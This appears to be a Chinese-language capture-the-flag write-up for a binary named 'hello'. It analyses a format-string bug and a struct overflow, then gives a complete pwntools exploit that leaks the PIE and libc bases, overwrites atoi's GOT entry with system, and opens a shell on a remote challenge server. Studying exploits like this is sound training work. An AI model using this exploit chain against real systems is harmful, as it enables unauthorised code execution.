

利用思路
checksec查一下  程序有4个功能函数，其中show()函数中存在格式化字符串漏洞
程序有4个功能函数，其中show()函数中存在格式化字符串漏洞

一般的格式化字符串漏洞，可以通过覆盖栈上的返回地址，来达到命令执行的目的。但是这个题，格式化字符串中的变量是一个全局变量，在bss段，没办法直接覆盖返回地址。
继续看上图，可以看到用户的输入是通过一个结构体来存储的，第14行明显是一个地址
该结构体由三个字段组成：phone number（11 bytes）、name（13
bytes）、des info指针（8
bytes）。而在add()中，使用scanf接收用户输入，这就给了我们越界写的机会。可以覆盖des
info指针，这就导致可以进行任意地址写。
接下来，想要完成RCE，就需要找到一个合适的位置或者函数，来构造system('/bin/sh')，这样的结构在menu()函数中可以找到，如下图：

因为buf是可控输入内容，如果输入/bin/sh，然后将atoi的got表地址改为system函数的地址，就可以达成RCE。
漏洞利用
根据上面分析的思路，由于程序开启PIE，因此需要首先计算程序基址后，再计算atoi()的got表地址
GDB在格式化字符串漏洞位置打一个断点 1
2
| pwndbg> starti
pwndbg> b *$rebase(0x1190)
|
在发生格式化字符串时，可以获取到show()函数的返回地址（即main()函数中，调用show()之后的那条指令）
1
2
3
4
| add("%9$p")
show(0)
process_base = int(p.recvline().decode().split(':')[1], 16) - 0x1274
atoi_got = process_base + HELLO.got['atoi']
|
随后还需要泄露libc的基址，以计算system函数的地址
同样，根据上面的图，可以看到栈上0x7fffffffdfa8位置处保存的是__libc_start_main+240的地址（这个240的偏移就是实际的偏移，通过glibc_all_in_one获取到对应版本的ld即可找到该偏移）
1
2
3
4
| add("%13$p")
show(1)
libc_base = int(p.recvline().decode().split(':')[1], 16) - LIBC.symbols['__libc_start_main'] - 240
system_addr = libc_base + LIBC.symbols['system']
|
此时，就可以使用des info处的任意地址写，完成atoi()的got地址覆盖
1
2
| payload = b"a" * 13 + p64(atoi_got)
edit(0, b"jack", payload, p64(system_addr))
|
完整exp
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
| from pwn import *
p = remote('61.147.171.105', 60050)
LIBC = ELF("./libc-2.23.so")
HELLO = ELF("./hello")
def add(number):
p.sendlineafter("your choice>>", b"1")
p.sendlineafter("phone number:", number.encode())
p.sendlineafter("name:", b"jackson")
p.sendlineafter("input des size:", b"10")
p.sendlineafter("des info:", b"123456789")
def show(index):
p.sendlineafter("your choice>>", b"3")
p.sendlineafter("input index:", str(index).encode())
def edit(index, number, name, des_info):
p.sendlineafter("your choice>>", b"4")
p.sendlineafter("input index:", str(index).encode())
p.sendlineafter("phone number:", number)
p.sendlineafter("name:", name)
p.sendlineafter("des info:", des_info)
add("%9$p")
show(0)
process_base = int(p.recvline().decode().split(':')[1], 16) - 0x1274
atoi_got = process_base + HELLO.got['atoi']
log.success("process_base = " + hex(process_base))
log.success("atoi_got = " + hex(atoi_got))
add("%13$p")
show(1)
libc_base = int(p.recvline().decode().split(':')[1], 16) - LIBC.symbols['__libc_start_main'] - 240
system_addr = libc_base + LIBC.symbols['system']
log.success("libc_base = " + hex(libc_base))
log.success("system_addr = " + hex(system_addr))
payload = b"a" * 13 + p64(atoi_got)
edit(0, b"jack", payload, p64(system_addr))
p.recvuntil("your choice>>")
p.sendline(b"/bin/sh")
p.interactive()
|